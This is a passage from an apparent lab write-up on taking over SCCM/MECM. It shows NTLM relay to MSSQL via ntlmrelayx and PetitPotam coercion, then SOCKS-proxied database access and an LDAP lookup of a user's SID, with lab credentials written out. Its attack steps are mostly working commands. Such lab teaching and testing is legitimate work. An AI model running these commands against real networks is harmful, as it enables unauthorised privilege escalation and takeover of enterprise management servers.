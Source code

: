 ![sccm_hunter_relay_mssql_petipotam.png](/assets/blog/SCCM/sccm_hunter_relay_mssql_petipotam.png)

- And our low user become MECM admin \o/

![sccm_hunter_relay_mssql2.png](/assets/blog/SCCM/sccm_hunter_relay_mssql2.png)

- As a proof let's connect as admin with sccmhunter

```bash
python3 sccmhunter.py admin -u carol@sccm.lab -p 'SCCMftw' -ip 192.168.33.11 

() C:\ >> show_admins
```

![sccm_hunter_relay_mssql_new_admin.png](/assets/blog/SCCM/sccm_hunter_relay_mssql_new_admin.png)

## Takeover 1 - relay to mssql (low user -> mssql server admin) - by hand

- Ok we have done that with full automation, let's try to do that manually to.

- Launch the relay with socks
```bash
ntlmrelayx.py -smb2support -ts -t mssql://192.168.33.12 -socks
```

- Launch petipotam
```bash
petitpotam.py -d sccm.lab -u carol -p SCCMftw 192.168.33.1 192.168.33.11
```

- Once this is done we can connect to the mssql db with the socks
```bash
proxychains -q mssqlclient.py -windows-auth -no-pass 'SCCMLAB/MECM$'@192.168.33.12
```

![MSSQL_socks.png](/assets/blog/SCCM/MSSQL_socks.png)

- The db listing show the db configuration manager 'P01' : "CM_P01".

![mssql_db.png](/assets/blog/SCCM/mssql_db.png)

- We will add Carol to the admins.
- First we will need carol SID

```bash
ldeep ldap -u carol -p SCCMftw -d SCCM.lab -s ldap://192.168.33.10 search '(name=carol)' 'objectSid'
```

![get_carol_sid.png](/assets/blog/SCCM/get_carol_sid.png)

- The result is : `S-1-5-21-3544182104-1320166847-3102157022-1114` (definition here: [https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers))
